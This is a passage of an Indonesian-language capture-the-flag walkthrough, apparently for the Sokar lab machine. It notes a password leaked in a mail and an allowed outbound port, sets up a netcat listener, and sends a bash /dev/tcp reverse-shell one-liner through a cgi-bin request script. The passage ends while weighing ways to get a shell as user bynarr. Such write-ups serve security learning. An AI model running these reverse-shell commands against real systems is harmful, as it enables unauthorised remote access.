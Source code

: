 ~~~~

All the best in your new role!

  -Sokar-
~~~~

Oke, bad practice untuk mengirimkan informasi login ke sini. Password akun bynarr adalah 'fruity' dan semoga tidak diubah.
Informasi lain yang didapat adalah firewall mengijinkan akses ke luar dengan tujuan port 51242.

Oh, dan dia menyebut forensic dump? Mungkin karena itu ada file lime.

Untuk bisa login ke mesin kita perlu reverse shell.


# [#] Eksploitasi 2

Pastikan kita memperbolehkan port 51242 di tempat kita diakses dari luar.

`# iptables -A INPUT -p tcp --dport 51242 -j ACCEPT`

Mari coba gunakan netcat untuk listening di port 51242

~~~~
# nc -lvp 51242
Listening on [0.0.0.0] (family 0, port 51242)
~~~~

Kemudian kita coba bikin reverse shell. Berdasarkan cheatsheet di [sini](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet "Reverse shell cheatsheet") kita coba reverse shell bash.

~~~~
send $ bash -i >& /dev/tcp/192.168.56.1/51242 0>&1
Traceback (most recent call last):
  File "./comm.py", line 11, in <module>
    print requests.get('http://192.168.56.101:591/cgi-bin/cat', headers=headers).text.strip()
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 70, in get
    return request('get', url, params=params, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 56, in request
    return session.request(method=method, url=url, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 475, in request
    resp = self.send(prep, **send_kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 596, in send
    r = adapter.send(request, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/adapters.py", line 473, in send
    raise ConnectionError(err, request=request)
requests.exceptions.ConnectionError: ('Connection aborted.', BadStatusLine("''",))
~~~~

Blank, tak ada koneksi masuk ke tempat kita. Ada apa? Mungkin firewall block akses kita. Ah, bisa jadi hanya bynarr yang boleh mengakses ke luar lewat port 51242. Iptables memungkinkan hal ini.

Ada dua pilihan sekarang.
* Kita perlu download reverse shell dari luar dan file itu dimiliki oleh bynarr.
* Kita perlu spawn sebuah tty yang bisa kita gunakan untuk login sebagai bynarr kemudian connect ke listener.
